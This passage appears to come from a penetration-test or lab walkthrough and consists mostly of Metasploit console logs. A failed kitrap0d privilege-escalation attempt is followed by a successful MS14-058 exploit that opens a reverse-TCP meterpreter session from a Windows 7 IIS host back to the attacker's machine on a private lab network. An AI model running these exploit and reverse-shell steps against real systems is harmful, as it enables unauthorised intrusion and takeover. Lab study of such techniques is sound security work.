     msf exploit(ms10_015_kitrap0d) > sessions
    Active sessions
    ===============
    
      Id  Type                     Information                         Connection
      --  ----                     -----------                         ----------
      17  meterpreter x86/windows  IIS APPPOOL\MyFirstSite @ IE11WIN7  192.168.0.99:4444 -> 192.168.0.102:49159 (192.168.0.102)
      18  meterpreter x86/windows  IIS APPPOOL\MyFirstSite @ IE11WIN7  192.168.0.99:5555 -> 192.168.0.102:49160 (192.168.0.102)
    
    msf exploit(ms10_015_kitrap0d) > set SESSION 17
    SESSION => 17
    msf exploit(ms10_015_kitrap0d) > run
    
    [*] Started reverse TCP handler on 192.168.0.99:5555 
    [*] Launching notepad to host the exploit...
    [+] Process 4056 launched.
    [*] Reflectively injecting the exploit DLL into 4056...
    [*] Injecting exploit into 4056 ...
    [*] Exploit injected. Injecting payload into 4056...
    [*] Payload injected. Executing exploit...
    [+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
    [*] Exploit completed, but no session was created.

    
Failed to work @ 14:14. The machine appears to be fairly well patched. OK, quickly try out another MS14-058.


    msf exploit(ms13_081_track_popup_menu) > use exploit/windows/local/ms14_058_track_popup_menu
    msf exploit(ms14_058_track_popup_menu) > options
    
    Module options (exploit/windows/local/ms14_058_track_popup_menu):
    
       Name     Current Setting  Required  Description
       ----     ---------------  --------  -----------
       SESSION  17               yes       The session to run this module on.
    
    
    Payload options (windows/meterpreter/reverse_tcp):
    
       Name      Current Setting  Required  Description
       ----      ---------------  --------  -----------
       EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
       LHOST     192.168.0.99     yes       The listen address
       LPORT     5555             yes       The listen port
    
    Exploit target:
    
       Id  Name
       --  ----
       0   Windows x86
    
    msf exploit(ms14_058_track_popup_menu) > run
    
    [*] Started reverse TCP handler on 192.168.0.99:5555 
    [*] Launching notepad to host the exploit...
    [+] Process 912 launched.
    [*] Reflectively injecting the exploit DLL into 912...
    [*] Injecting exploit into 912...
    [*] Exploit injected. Injecting payload into 912...
    [*] Payload injected. Executing exploit...
    [*] Sending stage (179267 bytes) to 192.168.0.102
    [+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
    [*] Meterpreter session 20 opened (192.168.0.99:5555 -> 192.168.0.102:49162) at 2018-07-26 23:47:00 -0400
    
